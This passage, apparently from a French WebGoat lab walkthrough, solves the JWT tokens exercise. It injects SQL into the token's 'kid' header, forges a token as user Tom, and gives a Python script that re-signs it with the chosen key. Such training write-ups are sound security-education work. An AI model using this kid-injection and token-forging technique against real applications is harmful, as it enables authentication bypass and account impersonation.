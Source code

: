 *   Modifier les deux premières parties du token en :
```
{"typ":"JWT","kid":"hacked' UNION select 'ZGVsZXRpbmdUb20=' from 
INFORMATION_SCHEMA.SYSTEM_USERS --","alg":"HS256"}
``` 
et 
```
{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,
"aud":"webgoat.org","sub":"jerry@webgoat.com","username":"Tom",
"Email":"jerry@webgoat.com","Role":["Cat"]}
```
puis recalculer la signature avec la clé `deletingTom`, avec le script Python ci-dessous par exemple.
*   Le nouveau token est :
```
eyJ0eXAiOiJKV1QiLCJraWQiOiJoYWNrZWQnIFVOSU9OIHNlbGVjdCAnWkdWc1pYUnBibWRVYjIwPScg
ZnJvbSBJTkZPUk1BVElPTl9TQ0hFTUEuU1lTVEVNX1VTRVJTIC0tIiwiYWxnIjoiSFMyNTYifQ.eyJpc
3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwN
CwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsInVzZXJuYW1lIjoiV
G9tIiwiRW1haWwiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsIlJvbGUiOlsiQ2F0Il19.JrDpQmNiVI818UvO
MQgRmPkZOetw7Ic1WbPvStS2B6U
```
*   Cliquer sur _Modifier et Renvoyer_, modifier le paramètre avec la nouvelle valeur générée, et renvoyer la requête.

```python
import base64  
import hashlib  
import hmac  
  
def jwt_tokens_8():  
     def hmac_base64(key, message):  
         return base64.urlsafe_b64encode(bytes.fromhex(hmac.new(key, message, hashlib.sha256).hexdigest()))  
  
     header = '{"typ":"JWT","kid":"hacked\' UNION select \'ZGVsZXRpbmdUb20=\' from INFORMATION_SCHEMA.SYSTEM_USERS --","alg":"HS256"}'.encode()  
     payload = '{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,"aud":"webgoat.org","sub":"jerry@webgoat.com","username":"Tom","Email":"jerry@webgoat.com","Role":["Cat"]}'.encode()  
  
     new_token = (base64.urlsafe_b64encode(header).decode().rstrip('=') +  
         '.' +  
         base64.urlsafe_b64encode(payload).decode().rstrip('=')).encode()  
     new_signature = hmac_base64('deletingTom'.encode(), new_token)  
     new_token += ('.' + new_signature.decode().rstrip('=')).encode()  
  
     print('New token: {}'.format(new_token.decode()))  
     return  
  
jwt_tokens_8()
```

#### **(A3) Sensitive Data Exposure:**
